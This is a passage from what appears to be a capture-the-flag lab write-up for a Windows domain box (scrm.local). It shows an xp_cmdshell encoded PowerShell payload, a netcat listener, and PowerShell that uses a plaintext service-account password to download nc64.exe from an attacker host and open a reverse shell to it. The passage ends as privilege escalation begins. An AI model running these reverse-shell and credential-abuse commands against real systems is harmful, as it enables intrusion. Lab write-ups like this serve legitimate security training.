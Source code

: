 ```
xp_cmdshell powershell -e JABjAGwAaQBl....
```

Catch this shell using `nc -lvnp [port]`.

Now, host a python HTTP server and host a copy of `nc64.exe`, then run the following command to send a reverse shell as `MiscSvc`.

```
$SecPassword = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('scrm.local\MiscSvc', $SecPassword)

Invoke-Command -Computer 127.0.0.1 -Credential $Cred -ScriptBlock { curl http://10.10.14.6:8000/nc64.exe -o C:/Users/MiscSvc/nc64.exe }

Invoke-Command -Computer 127.0.0.1 -Credential $Cred -ScriptBlock { C:/Users/MiscSvc/nc64.exe 10.10.14.6 4444 -e cmd.exe }
```

*The user flag is located at `C:\Users\miscsvc\Desktop`*

## Privilege Escalation

Privilege Escalation in this box involves the unknown service on Port 4411. From browsing the shares available to the MiscSvc user, the `.exe` and `.dll` for this service is located in `C:/Shares/IT/Apps/Sales Order Client`.